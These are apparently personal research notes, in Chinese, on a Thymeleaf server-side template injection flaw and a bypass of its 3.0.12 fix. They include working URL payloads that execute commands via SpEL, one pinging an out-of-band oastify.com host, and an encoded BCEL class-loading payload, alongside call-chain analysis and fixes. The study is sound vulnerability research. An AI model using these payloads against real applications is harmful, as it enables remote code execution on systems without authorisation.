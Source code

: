 参考
https://turn1tup.github.io/2021/08/10/spring-boot-thymeleaf-ssti/
https://www.freebuf.com/articles/web/339962.html

# thymeleaf 
version <= 3.0.11.RELEASE 存在ssti漏洞
version = 3.0.12.RELEASE 修复, 但可绕过, 并且通用
https://github.com/thymeleaf/thymeleaf/compare/thymeleaf-spring5-3.0.11.RELEASE...thymeleaf-spring5-3.0.12.RELEASE?diff=unified#

# 漏洞利用
```text
poc(bypass 3.0.12.RELEASE)
1.不要有new关键字
2.T(之间要有分隔符(%20 %0a %09 %0d %00之一)
3.绕过SpringRequestUtils.checkViewNameNotInRequest, __${}__前增加(;/或者//), 比如返回void并且templates在urlpath中添加的时候/doc/{document}
4.我们输入是模版的名称或者一部分
/path?lang=;/__$%7bT%20(java.lang.Runtime).getRuntime().exec("open%20-a Calculator.app")%7d__::.xjj
/path?lang=;/__$%7bT%20(java.lang.Runtime).getRuntime().exec("ping 1234.e4j37wz7vs307ez7x68zd1w0nrtih7.oastify.com")%7d__::.xjj

结合bcel(JDK251后BCEL使用不了)
/lang=::__${"".getClass().forName("$$BCEL$$$l$8b$I$A$A$A$A$A$A$AePMO$c2$40$U$9c$85B$a1$W$84$e2$f7$b7$t$c1$83$3dx$c4x1z$b1$w$R$83$e7$ed$b2$c1$c5$d2$92R$8c$fe$o$cf$5e$d4x$f0$H$f8$a3$8c$af$x$R$a3$7bx$_o$e6$cdL$de$7e$7c$be$bd$D$d8$c7$b6$F$Ts$W$e6$b1P$c0b$da$97L$y$9bX1$b1$ca$90$3fP$a1J$O$Z$b2$f5F$87$c18$8a$ba$92a$d6S$a1$3c$l$P$7c$Z_q$3f$m$c4$f1$o$c1$83$O$8fU$3aO$40$p$b9Q$a3$94$T$d1$c0$f5$a5$I$dc$W$7f$I$o$dem2$U$OD0$b1$$$b5$T$$n$cf$f8P$cb$u$9c$c1jG$e3X$c8$T$95$da$d8$T$d5$5e$9f$dfq$h$F$UM$ac$d9X$c7$GEP$aa$b0$b1$89$z$86Z$ca$bb$B$P$7b$ee$f1$bd$90$c3DE$nC$e5o8A$d3$c5$L$bf$_E$c2P$9dB$97$e30Q$D$ca$b5z2$f9$Z$e6$eb$N$ef$df$O$dda$c8$7b$v$Yv$ea$bf$d8v$S$ab$b0$d7$fc$zh$c5$91$90$a3Q$T$db$c8$d3$7f$a7$_$D$96$deB$d5$a2$c9$a5$ce$a8$e7v_$c0$9e4$3dC5$af$c1$Ml$aa$f6$f7$CJ$uS$_$60$f6G$7c$a1$cd$80$f2$x2N$f6$Z$c6$f5$p$8c$d3$t$8d$VI$97CV$bb90$a8$9a$84YH$3f$b2D$a8$ad$fd$81$8af2$9e$89$wH$e8h$b8$f6$Fz7$85$d0$t$C$A$A", true, "".getClass().forName("com.sun.org.apache.bcel.internal.util.ClassLoader").newInstance())}_______________
```

# 漏洞分析
## 前置学习thymeleaf
1.TemplateEngine(process)
2.TemplateManager(parseAndProcess)
3.ThymeleafViewResolver(createView)
File/ServletContext/SpringResource/String/Url + TemplateResolver

https://waylau.gitbooks.io/thymeleaf-tutorial/content/docs/standard-expression-syntax.html

## 调用链
渲染的时候产生的问题
DispatcherServlet.render()
 ThymeleafView.renderFragment()
  StandardExpressionPreprocessor.parseExpression()
   StandardExpressionPreprocessor.preprocess()
    PREPROCESS_EVAL_PATTERN.matcher(input);
    VariableExpression.execute()

## 解释poc

```text
1.::
org.thymeleaf.spring5.view.ThymeleafView.renderFragment()中执行else部分
if (!viewTemplateName.contains("::")) {} else {...}
代表含义fragment
// Template name contains a fragment name, so we should parse it as such
<p insert="~{page::fragment}"></p>来插入内容

2.__${Expression}__
__${…}__ 是 thymeleaf 中的预处理表达式，也就是会对双下划线包起来的表达式进行预处理, 预处理时遵循SpEL。
org.thymeleaf.standard.expression.StandardExpressionPreprocessor.preprocess()中正则匹配
final Matcher matcher = PREPROCESS_EVAL_PATTERN.matcher(input);
PREPROCESS_EVAL_PATTERN = "\_\_(.*?)\_\_"
input = "~{user/__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("open -a Calculator.app").getInputStream()).next()}__::.x/welcome}"

最终执行: new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("open -a Calculator.app").getInputStream()).next()
```

## 绕过
绕过检查
1.org.thymeleaf.spring5.util.SpringRequestUtils.checkViewNameNotInRequest
2.org.thymeleaf.spring5.util.SpringStandardExpressionUtils#containsSpELInstantiationOrStatic

矩阵变量绕过
org.springframework.web.util.UrlPathHelper.decodeAndCleanUriString中
org.springframework.web.util.UrlPathHelper.removeSemicolonContent移除;/中的; (;后面必须要有个/ 这样会移除二者之间的内容, 否则就是移除;后面所有的内容)
org.springframework.web.util.UrlPathHelper.getSanitizedPath将//变成/
利用矩阵变量的移除;操作, 让checkViewNameNotInRequest中vn和requestUri不同, 进而found = false就绕过了

new关键字以及T()绕过
T(之间增加特殊字符, 使用其他方式替代new关键字

## 提出问题
1.研究一下作者给出的poc
::代表renderFragment, 在传入的viewName中含有fragment, 需要处理一下
/doc/{document}返回void时传入的名称作为viewName
redirect不会产生问题, 不会解析为表达式
/safe/doc/{document}传参增加了response所以无法利用

2.url利用中关于编码的问题
尝试了直接输入也可以没问题 
{}需要使用url编码, %7b%7d

3.漏洞产生的根本原因
在解析fragment的时候进行了表达式执行, 可以通过构造达到执行命令的效果

(1)
org.springframework.web.servlet.DispatcherServlet.processDispatchResult中
在获取ModelAndView结果之后进行渲染, 传入render()函数
其中model为null
而view为`user/__${T(java.lang.Runtime).getRuntime().exec("open -a Calculator.app")}__::.x/welcome`, 也就是模版的位置
(2)
org.springframework.web.servlet.DispatcherServlet.render()
拿到ThymeleafView, 然后使用这个view进行渲染
view.render(mv.getModelInternal(), request, response);
(3)
renderFragment进行实际的渲染动作
(4)
parser.parseExpression()解析模版的viewName
StandardExpressionPreprocessor.preprocess()预处理输入的viewName
最终执行expression.execute(context, ...)

4.如何修复
方法1使用ResponseBody
方法2使用redirect
方法3在传入参数增加response

5.执行表达式为什么是${expression}
`__${}__`是 thymeleaf 中的预处理表达式，也就是会对双下划线包起来的表达式进行预处理
而且使用${}会解析为VariableExpression, 只有VariableExpression可以执行SpEL
变量表达式可以是OGNL表达式或者是 Spring EL，如果集成了Spring的话，可以在上下文变量（context variables ）中执行。

6.其他的执行表达式都有哪些方式
OGNL

7.如何挖到这样的漏洞
首先要熟悉thymeleaf, 知道有__${}__, 这么一个预处理的东西
其次要熟悉SpEL, 知道怎么构造执行表达式
然后要熟悉源代码, 调试很多遍, 而且范围要很广, 才能最终锁定这一个地方

8.thymeleaf从访问到给出页面的整个流程是怎样的, 从代码层面给出流程图
org.springframework.web.servlet.DispatcherServlet.doDispatch拿到mv
org.springframework.web.servlet.DispatcherServlet.processDispatchResult将mv放入模版中, render()

## 调试遇到的问题:
1.run可以访问, 但是debug无法访问??
使用idea service发现卡住，然后去掉了所有断点就可以了

